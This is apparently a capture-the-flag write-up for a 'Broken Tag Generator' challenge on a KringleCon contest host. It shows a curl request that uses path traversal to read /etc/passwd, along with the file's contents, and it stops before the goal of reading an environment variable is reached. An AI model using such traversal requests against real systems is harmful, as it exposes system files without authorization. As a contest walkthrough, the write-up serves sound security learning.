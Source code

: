 # Objective 8: Broken Tag Generator

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```

<!--stackedit_data:
eyJoaXN0b3J5IjpbNzAzMjA5NDExLDkyMDQ1NTg2NSwtMTYwNj
A3ODA0MF19
-->